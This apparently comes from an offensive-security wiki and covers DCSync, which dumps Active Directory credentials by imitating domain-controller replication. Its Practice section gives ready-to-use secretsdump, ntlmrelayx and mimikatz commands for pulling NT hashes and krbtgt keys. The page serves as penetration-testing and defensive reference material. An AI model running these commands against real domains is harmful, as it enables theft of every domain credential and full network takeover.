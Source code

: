 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1003.006
---
```


# DCSync

## Theory

DCSync is a technique that uses Windows Domain Controller's API to simulate the replication process from a remote domain controller. This attack can lead to the compromise of major credential material such as the Kerberos `krbtgt` keys used legitimately for tickets creation, but also for [tickets forging](../../../../../ad/movement/kerberos/forged-tickets/) by attackers. The consequences of this attack are similar to an [NTDS.dit dump and parsing](ntds.md) but the practical aspect differ. **A DCSync is not a simple copy & parse of the NTDS.dit file**, it's a `DsGetNCChanges` operation transported in an RPC request to the DRSUAPI (Directory Replication Service API) to replicate data (including credentials) from a domain controller.

**This attack requires domain admin privileges** to succeed (more specifically, it needs the following extended privileges: `DS-Replication-Get-Changes` and `DS-Replication-Get-Changes-All`). Members of the Administrators, Domain Admins, Enterprise Admins, and Domain Controllers groups have these privileges by default. In some cases, over-privileged accounts can be abused to [grant controlled objects the right to DCSync](../../../../../ad/movement/dacl/grant-rights.md).

{% hint style="info" %}
A setting exists in the account policy or when creating users telling the domain controller to store the user's password using reversible encryption instead of irreversible hashing. This allows attackers to retrieve the passwords in clear-text.
{% endhint %}

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
On UNIX-like systems, this attack can be carried out with [Impacket](https://github.com/SecureAuthCorp/impacket/)'s [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) which has the ability to run this attack on an elevated context obtained through [plaintext password stuffing](../../../../../ad/movement/credentials/bruteforcing/stuffing.md), [pass-the-hash](../../../../../ad/movement/ntlm/pth.md) or [pass-the-ticket](../../../../../ad/movement/kerberos/ptt.md).

```bash
# using a plaintext password
secretsdump -outputfile 'something' 'DOMAIN'/'USER':'PASSWORD'@'DOMAINCONTROLLER'

# with Pass-the-Hash
secretsdump -outputfile 'something' -hashes 'LMhash':'NThash' 'DOMAIN'/'USER'@'DOMAINCONTROLLER'

# with Pass-the-Ticket
secretsdump -k -outputfile 'something' 'DOMAIN'/'USER'@'DOMAINCONTROLLER'
```

The secretsdump script creates the following files.

| File       | Content                                                   |
| ---------- | --------------------------------------------------------- |
| .ntds      | LM and NT password hashes                                 |
| .cleartext | Passwords stored using reversible encryption              |
| .kerberos  | Kerberos keys (DES, AES128 and AES256)                    |
| .sam       | Domain controller's [SAM secrets](sam-and-lsa-secrets.md) |
| .secrets   | Domain controller's [LSA secrets](sam-and-lsa-secrets.md) |

This attack can also be operated with a [relayed NTLM authentication](../../../../../ad/movement/ntlm/relay.md), but only if the target domain controller is vulnerable to [Zerologon](../../../../../ad/movement/netlogon/zerologon.md) since the DRSUAPI always requires signing.

```bash
# target vulnerable to Zerologon, dump DC's secrets only
ntlmrelayx.py -t dcsync://'DOMAINCONTROLLER'

# target vulnerable to Zerologon, dump Domain's secrets
ntlmrelayx.py -t dcsync://'DOMAINCONTROLLER' -auth-smb 'DOMAIN'/'LOW_PRIV_USER':'PASSWORD'
```
{% endtab %}

{% tab title="Windows" %}
On Windows, [mimikatz](https://github.com/gentilkiwi/mimikatz) (C) can be used [`lsadump::dcsync`](https://tools.thehacker.recipes/mimikatz/modules/lsadump/dcsync) to operate a DCSync and recover the `krbtgt` keys for a [golden ticket attack](../../../../../ad/movement/kerberos/forged-tickets/#golden-ticket) for example. For this attack to work, the following mimikatz command should run in an elevated context (i.e. through runas with plaintext password, [pass-the-hash](broken-reference) or [pass-the-ticket](broken-reference)).

```bash
# Extract a specific user, in this case the krbtgt
lsadump::dcsync /dc:$DomainController /domain:$DOMAIN /user:krbtgt

# Dump everything (printed in a short and readable format)
lsadump::dcsync /dc:$DomainController /domain:$DOMAIN /all /csv
```
{% endtab %}
{% endtabs %}

{% hint style="info" %}
For an undocumented reason, Impacket's secretsdump relies on SMB before doing a DCSync (hence requiring a `CIFS/domaincontroller` SPN when using Kerberos tickets) while Mimikatz relies on LDAP before doing the DCSync (hence requiring a `LDAP/domaincontroller` SPN when using Kerberos tickets)
{% endhint %}

## Resources

{% embed url="https://attack.stealthbits.com/privilege-escalation-using-mimikatz-dcsync" %}
